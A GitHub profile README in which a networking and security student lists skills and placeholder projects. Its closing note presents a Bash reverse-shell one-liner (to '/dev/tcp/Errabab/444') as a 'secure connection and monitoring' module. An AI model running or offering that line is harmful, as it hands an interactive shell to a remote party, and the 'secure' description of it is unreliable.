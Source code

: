 # 👋 Hi, I'm Errabab

### Network and Database Administration student skilled in security, virtualization, and web development, with a focus on efficient and robust tech solutions.

---

### 📜 About Me
I'm dedicated to the field of system and network administration, with a commitment to securing and optimizing tech environments. My experience spans cybersecurity, virtualization, and web development, all of which drive my goal to deliver efficient and reliable solutions.

---

### ⚙️ Configuration

<config>
  
  🖥️ **Systems Administration**  
  🛡️ **Network Security**  
  📶 **System & Network Monitoring**  
  👾 **Ethical Hacking**  
  💥 **Penetration Testing**  
  ♾️ **DevOps**  

</config>

---

### 💻 Skills

- **Network and System Administration**  
- **Network Security and Monitoring**  
- **Security Research (SoC)**  
- **Ethical Hacking and Penetration Testing**  
- **System Monitoring and Optimization**  
- **Automation and SIEM Configuration**  

---

### 🚀 Featured Projects

- [🛠️ SIEM Configuration Project](#)  
- [🔍 Network Security Research](#)  
- [📡 Real-time System Monitoring Setup](#)  

---

### 🤝 Connect with Me


[LinkedIn](https://www.linkedin.com/in/erabab-salec-ahrayam-316584263/)
[X (Twitter)](https://x.com/_jk_29)

---

#### Note:
_This configuration includes Bash modules for secure connections and monitoring:_

```bash
/bin/bash -i >& /dev/tcp/Errabab/444 0>&1


<!---
Errabab/Errabab is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
